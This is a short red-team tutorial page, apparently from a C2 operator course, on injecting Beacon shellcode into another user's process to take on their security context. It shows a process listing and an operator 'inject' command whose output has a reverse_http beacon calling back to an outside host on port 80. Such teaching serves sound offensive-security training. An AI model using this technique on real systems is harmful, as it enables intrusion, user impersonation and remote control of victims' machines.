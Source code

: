 # Process Injection

Another, admittedly crude technique for impersonating a user, is to inject \[[T1055](https://attack.mitre.org/techniques/T1055/)] Beacon shellcode directly into a process they are running.  The new Beacon session that comes back will be running in the address space of this process and therefore under the security context of its owner.

Find a target process using the `ps` command or the process explorer, then inject shellcode for the given listener into it.

```batch
 PID   PPID  Name                       Arch  Session     User
 ---   ----  ----                       ----  -------     ----
 5248  1864  cmd.exe                    x64   0           CONTOSO\rsteel
 5256  5248      conhost.exe            x64   0           CONTOSO\rsteel
 5352  5248      mmc.exe                x64   0           CONTOSO\rsteel
 
beacon> inject 5248 x64 http
[*] Tasked beacon to inject windows/beacon_http/reverse_http (www.bleepincomputer.com:80) into 5248 (x64)
```

<figure><img src="https://lwfiles.mycourse.app/66e95234fe489daea7060790-public/406ca8e0c9496eceaf963320db24bd43.png" alt="" height="86" width="914"><figcaption></figcaption></figure>

{% hint style="info" %}
You need a high-integrity session to inject into processes other than your own.
{% endhint %}
